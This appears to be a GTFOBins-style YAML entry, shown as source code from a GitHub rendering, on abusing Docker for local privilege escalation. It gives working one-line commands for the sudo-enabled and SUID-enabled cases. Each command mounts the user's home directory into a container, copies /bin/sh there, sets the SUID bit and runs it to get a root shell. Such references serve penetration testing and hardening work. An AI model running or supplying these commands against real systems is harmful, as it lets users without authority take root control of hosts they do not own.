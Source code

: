 ```yaml
---
description: |
  Exploit the fact that Docker runs as root to create a SUID binary on the host using a container. This requires the user to be privileged enough to run docker, e.g. being in the `docker` group. Any other Docker Linux image should work, e.g., `debian`.
functions:
  sudo-enabled:
    - code: |
        sudo docker run --rm -v /home/$USER:/h_docs ubuntu \
            sh -c 'cp /bin/sh /h_docs/ && chmod +s /h_docs/sh' && ~/sh -p
  suid-enabled:
    - code: |
        ./docker run --rm -v /home/$USER:/h_docs ubuntu \
            sh -c 'cp /bin/sh /h_docs/ && chmod +s /h_docs/sh' && ~/sh -p
---
```

